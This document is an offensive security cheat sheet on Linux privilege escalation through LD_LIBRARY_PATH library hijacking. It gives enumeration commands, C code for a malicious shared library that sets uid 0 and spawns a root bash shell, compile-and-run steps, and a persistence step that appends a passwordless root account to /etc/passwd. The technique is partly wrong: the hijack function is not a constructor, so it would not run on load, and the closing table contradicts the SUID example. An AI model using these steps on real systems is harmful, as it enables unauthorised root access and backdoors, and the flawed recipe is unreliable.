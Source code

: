### 1. Technique Name:

Shared Libraries – LD_LIBRARY_PATH Privilege Escalation
### 2. Summary:

`LD_LIBRARY_PATH` is an environment variable used to specify additional directories where the dynamic linker should look for shared libraries **before** the standard paths like `/lib` or `/usr/lib`. If a **SUID binary** or **script** relies on a shared library in a path controllable by the attacker (and does not sanitize `LD_LIBRARY_PATH`), it can be tricked into loading a malicious library, resulting in privilege escalation.
### 3. Conditions / Requirements:

- You have write access to a directory added to `LD_LIBRARY_PATH`    
- The binary being executed is **dynamically linked**
- Either:
    - You can set `LD_LIBRARY_PATH` freely (script or binary is run directly), **or**    
    - The binary runs without stripping environment variables (e.g., not a hardened SUID binary, or is run via sudo with `LD_LIBRARY_PATH` preserved)

> Note: Most modern systems ignore `LD_LIBRARY_PATH` for **SUID binaries** by default for security. However, it can still be abused in custom SUID binaries, misconfigured startup scripts, or development environments.
### 4. Enumeration Steps:
#### A. Check for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```
#### B. Verify if dynamically linked:

```bash
ldd /path/to/suid_binary
```
#### C. Identify a vulnerable library in the output that can be hijacked:

```bash
libcustom.so => not found
```
### 5. Exploitation Steps:
#### A. Write a malicious replacement for a missing or hijackable library:

```c
// hijack.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void hijack() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
#### B. Compile the library:

```bash
gcc -shared -fPIC -o libcustom.so hijack.c
```
#### C. Set `LD_LIBRARY_PATH` to include current directory:

```bash
export LD_LIBRARY_PATH=.
```
#### D. Run the vulnerable binary:

```bash
./vulnerable_binary
```

If the binary imports `libcustom.so`, your function will be called with root privileges.
### 6. Post-Exploitation Tips:

- If it drops you to a root shell, use it to create persistence:    

```bash
echo 'h4x::0:0:root:/root:/bin/bash' >> /etc/passwd
```

- Restore environment and clean malicious lib:

```bash
unset LD_LIBRARY_PATH
rm ./libcustom.so
```
### 7. Example:

Let’s say you have a binary like this:

```bash
./dev_suid_binary
```

Its `ldd` output shows:

```bash
libhax.so => not found
```

You compile a malicious `libhax.so`, export the path:

```bash
gcc -shared -fPIC -o libhax.so hijack.c
export LD_LIBRARY_PATH=.
./dev_suid_binary
```

It runs as root and executes your payload.
### Comparison with LD_PRELOAD:

|Feature|LD_PRELOAD|LD_LIBRARY_PATH|
|---|---|---|
|Loads before everything|Yes|No, only used to find libs, not override system ones|
|Works with SUID?|No (unless explicitly allowed via sudo)|No (stripped by dynamic linker for SUIDs)|
|Useful when?|Function override in loaded binaries|Custom library loading by name|
|Example use case|Hijack `malloc`, `getenv`, etc.|Supply missing `libxyz.so`|
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Shared_Libraries #LD_LIBRARY_PATH
